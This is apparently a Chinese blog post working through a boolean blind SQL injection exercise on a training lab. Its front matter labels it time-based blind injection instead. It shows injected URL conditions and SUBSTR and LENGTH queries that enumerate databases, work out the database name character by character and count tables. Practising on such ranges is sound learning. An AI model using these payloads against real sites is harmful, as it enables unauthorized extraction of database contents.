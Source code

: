 ```yaml
---
layout: post
title: 掌控安全 SQL 注入靶场练习 - 时间盲注
categories: [安全, SQL注入]
description: 掌控安全 SQL 注入靶场练习 - 时间盲注
keywords: SQL注入, SQLMAP
---
```


# 掌控安全 SQL 注入靶场练习 - 布尔盲注

## 0x01 数据库探测

### 0x01.1 数据库数量探测
```sql
-- 数据库数量探测

http://injectx1.lab.aqlab.cn:81/Pass-10/index.php?id=1  AND (SELECT COUNT(*) FROM information_schema.SCHEMATA)=6

```

![boolblind-database-number-detect.png](/images/2020/12/09/boolblind-database-number-detect.png)

### 0x01.2 当前数据库名称探测

1. 探测当前数据库长度

```sql
SELECT LENGTH( (SELECT database()) );
-- result: 4
```

> 数据库名长度: 4

2. 使用 SUBSTR 探测数据库字符

开启是 **4个并发** 探测。 因为数据库名长度只有 **4** 。 之前探测结果。

```sql
-- 1.
SELECT 'z'=( SELECT SUBSTR((SELECT DATABASE()),1,1))
-- 2.
SELECT 'k'=( SELECT SUBSTR((SELECT DATABASE()),2,1))
-- 3.
SELECT 'a'=( SELECT SUBSTR((SELECT DATABASE()),3,1))
-- 4.
SELECT 'q'=( SELECT SUBSTR((SELECT DATABASE()),4,1))

-- reuslt: 1 or 0 
```

3. 组合数据库名字字符串

> 库名: zkaq

## 0x02 表探测

### 0x02.1 探测当前数据库表数量

```sql
SELECT COUNT(*) FROM information_schema.`TABLES` WHERE TABLE_SCHEMA=database();

-- result: 1
```

## 0xGG 参考文章

+ [SQL布尔型盲注思路分析（入门必看）](https://blog.csdn.net/qq_35544379/article/details/77351783)

